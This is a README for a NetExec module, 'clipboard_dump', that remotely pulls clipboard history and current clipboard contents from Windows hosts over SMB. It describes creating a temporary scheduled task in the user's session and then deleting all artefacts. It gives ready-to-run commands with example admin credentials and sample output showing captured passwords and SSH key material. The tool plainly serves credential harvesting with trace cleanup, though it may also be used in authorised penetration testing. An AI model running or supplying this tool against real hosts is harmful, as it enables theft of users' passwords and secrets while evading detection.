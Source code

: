 # NetExec `clipboard_dump` Module

`clipboard_dump` remotely dumps clipboard data from Windows hosts (Windows 10 / 11  
and Server 2012 → 2022) over SMB. It supports  

| Feature | How it’s collected |
|---------|-------------------|
| **Clipboard History** (Win 10 1809 +) | • Reads `HistoryData\*.json` (local history)<br>• Reads `ActivitiesCache.db` (Timeline / cloud‑sync) |
| **Live clipboard** when history is **disabled** | Creates a short‑lived **interactive Scheduled Task** in the user session:<br>  1. Tries WinRT API `GetHistoryItemsAsync()` for history<br>  2. Falls back to `Get‑Clipboard ‑Raw` for the current item<br>  3. Saves output to `%TEMP%` → copied via SMB → all artefacts deleted |

All artefacts (scheduled task, `.ps1` helper, temp `.txt`) are cleaned up automatically.

---

## Basic Usage

```bash
# dump everything on the target
nxc smb 10.0.0.1 --local-auth -u admin -p 'P@ssw0rd!' -M clipboard_dump
nxc smb <target> --local-auth -u <user> -p <pass> -M clipboard_dump \
    -o VERBOSE=true            # chatter about # items
nxc smb ... -M clipboard_dump -o RAW=true    # don't decode UTF‑16 / Base64
nxc smb ... -M clipboard_dump -o MAX=10      # first 10 items only
```

## Example Output
```bash
CLIPBOARD  10.0.0.1  445  DC01  10.0.0.1 | administrator
#  Timestamp (UTC)                Format  Clipboard Entry
0  2025‑07‑17T19:03:11.509Z       Text    Pa$$w0rd123!
1  2025‑07‑17T18:55:42.284Z       Text    ssh‑key‑id‑rsa ...
2  2025‑07‑17T18:50:10.031Z       LIVE    C:\Temp\invoice.xlsx
```
